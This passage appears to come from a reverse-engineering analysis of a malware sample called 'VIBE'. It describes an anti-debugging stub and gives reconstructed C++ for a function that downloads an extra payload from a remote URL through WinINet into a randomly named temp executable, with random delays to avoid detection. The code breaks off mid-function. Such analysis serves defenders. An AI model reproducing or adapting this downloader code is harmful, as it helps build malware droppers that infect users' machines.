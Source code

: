 2. **Anti-Analysis**:
   - Simple function might be a decoy
   - Could be used to trigger exceptions for anti-debugging
   - Minimal functionality makes static analysis less informative

**Security Implications**:
- No bounds checking or validation
- Could cause crashes if pointer is invalid
- Might be used for memory probing or anti-debugging
- Potential use in exploit techniques

**Relationship to Other Functions**:
- May work with thread management functions
- Could be called by command processing routines
- Might be used in error handling scenarios

### 6. VIBE::download_and_execute_additional_payload

**Purpose**: Downloads and executes additional malware payloads using multiple download methods and anti-detection techniques.

**Location**: 0x401500

**Functionality**:
1. Implements two download methods (WinINet and URLDownloadToFile)
2. Uses random delays and file names
3. Removes download markers
4. Verifies payload execution
5. Can trigger process termination after successful execution

**Implementation Details**:
```cpp
DWORD WINAPI download_and_execute_additional_payload(LPVOID lpParameter) {
    // Copy thread parameters
    char params[0x108];
    memcpy(params, lpParameter, 0x108);
    
    // Initialize random seed
    srand(GetTickCount());
    
    // Get temp path and generate random filename
    char tempPath[0x104];
    char targetPath[0x104];
    GetTempPathA(0x104, tempPath);
    sprintf(targetPath, "%s%s.exe", tempPath, 
            VIBE::generate_random_filename(10));
    
    // Random delay (10-40 seconds)
    Sleep(rand() % 0x7530 + 0x2710);
    
    // First download attempt using WinINet
    HINTERNET hInternet = InternetOpenA(
        "Mozilla/5.0 (Windows NT 6.1; WOW...)",
        0, NULL, NULL, 0);
    
    if (hInternet) {
        // Download and save file
        HINTERNET hUrl = InternetOpenUrlA(hInternet, url, 
                                        NULL, 0, 0, 0);
        if (hUrl) {
            // Write downloaded data to file
            HANDLE hFile = CreateFileA(targetPath, 
                GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 
                FILE_ATTRIBUTE_NORMAL, NULL);
            
            if (hFile != INVALID_HANDLE_VALUE) {
```
